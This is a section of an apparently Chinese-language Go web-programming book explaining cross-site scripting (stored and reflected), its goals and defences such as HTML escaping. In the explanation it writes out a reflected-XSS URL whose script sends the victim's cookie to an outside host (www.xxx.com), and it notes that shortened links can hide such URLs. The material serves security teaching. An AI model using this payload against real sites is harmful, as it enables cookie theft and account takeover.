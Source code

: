 # 9.3 避免 XSS 攻擊
隨著網際網路技術的發展，現在的 Web 應用都含有大量的動態內容以提高使用者體驗。所謂動態內容，就是應用程式能夠根據使用者環境和使用者請求，輸出相應的內容。動態站點會受到一種名為“跨站指令碼攻擊”（Cross Site Scripting, 安全專家們通常將其縮寫成 XSS）的威脅，而靜態站點則完全不受其影響。

## 什麼是 XSS

XSS 攻擊：跨站指令碼攻擊(Cross-Site Scripting)，為了不和層疊樣式表(Cascading Style Sheets, CSS)的縮寫混淆，故將跨站指令碼攻擊縮寫為 XSS。XSS 是一種常見的 web 安全漏洞，它允許攻擊者將惡意程式碼植入到提供給其它使用者使用的頁面中。不同於大多數攻擊(一般只涉及攻擊者和受害者)，XSS 涉及到三方，即攻擊者、客戶端與 Web 應用。XSS 的攻擊目標是為了盜取儲存在客戶端的 cookie 或者其他網站用於識別客戶端身份的敏感資訊。一旦取得到合法使用者的資訊後，攻擊者甚至可以假冒合法使用者與網站進行互動。

XSS 通常可以分為兩大類別：一類別是儲存型 XSS，主要出現在讓使用者輸入資料，供其他瀏覽此頁的使用者進行檢視的地方，包括留言、評論、部落格日誌和各類別表單等。應用程式從資料庫中查詢資料，在頁面中顯示出來，攻擊者在相關頁面輸入惡意的指令碼資料後，使用者瀏覽此類別頁面時就可能受到攻擊。這個流程簡單可以描述為 : 惡意使用者的 Html 輸入 Web 程式->進入資料庫->Web 程式->使用者瀏覽器。另一類別是反射型 XSS，主要做法是將指令碼程式碼加入 URL 地址的請求參數裡，請求參數進入程式後在頁面直接輸出，使用者點選類似的惡意連結就可能受到攻擊。

XSS 目前主要的手段和目的如下：

- 盜用 cookie，取得敏感資訊。
- 利用植入 Flash，透過 crossdomain 許可權設定進一步取得更高許可權；或者利用 Java 等得到類似的操作。
- 利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻擊者）使用者的身份執行一些管理動作，或執行一些如 : 發微博、加好友、發私信等常規操作，前段時間新浪微博就遭遇過一次 XSS。
- 利用可被攻擊的域受到其他域信任的特點，以受信任來源的身份請求一些平時不允許的操作，如進行不當的投票活動。
- 在訪問量極大的一些頁面上的 XSS 可以攻擊一些小型網站，實現 DDoS 攻擊的效果

## XSS 的原理
Web 應用未對使用者提交請求的資料做充分的檢查過濾，允許使用者在提交的資料中摻入 HTML 程式碼(最主要的是“>”、“<”)，並將未經轉義的惡意程式碼輸出到第三方使用者的瀏覽器解釋執行，是導致 XSS 漏洞的產生原因。

接下來以反射性 XSS 舉例說明 XSS 的過程：現在有一個網站，根據參數輸出使用者的名稱，例如訪問 url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下資訊：

	hello astaxie

如果我們傳遞這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`，這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了 XSS 漏洞。那麼惡意使用者是如何盜取 Cookie 的呢？與上類似，如下這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的 cookie 傳送到指定的站點：`www.xxx.com`。你也許會說，這樣的 URL 一看就有問題，怎麼會有人點選？，是的，這類別的 URL 會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的 url 透過某些途徑傳播開來，不明真相的使用者一旦點選了這樣的 url，相應 cookie 資料就會被髮送事先設定好的站點，這樣子就盜得了使用者的 cookie 資訊，然後就可以利用 Websleuth 之類別的工具來檢查是否能盜取那個使用者的賬戶。

更加詳細的關於 XSS 的分析大家可以參考這篇叫做《[新浪微博 XSS 事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防 XSS

答案很簡單，堅決不要相信使用者的任何輸入，並過濾掉輸入中的所有特殊字元。這樣就能消滅絕大部分的 XSS 攻擊。

目前防禦 XSS 主要有如下幾種方式：

- 過濾特殊字元

	避免 XSS 的方法之一主要是將使用者所提供的內容進行過濾，Go 語言提供了 HTML 的過濾函式：

	text/template 套件下面的 HTMLEscapeString、JSEscapeString 等函式

- 使用 HTTP 頭指定型別

```Go

`w.Header().Set("Content-Type","text/javascript")`

這樣就可以讓瀏覽器解析 javascript 程式碼，而不會是 html 輸出。
```

## 總結
XSS 漏洞是相當有危害的，在開發 Web 應用的時候，一定要記住過濾資料，特別是在輸出到客戶端之前，這是現在行之有效的防止 XSS 的手段。

## links
   * [目錄](<preface.md>)
   * 上一節：[確保輸入過濾](<09.2.md>)
   * 下一節：[避免 SQL 注入](<09.4.md>)
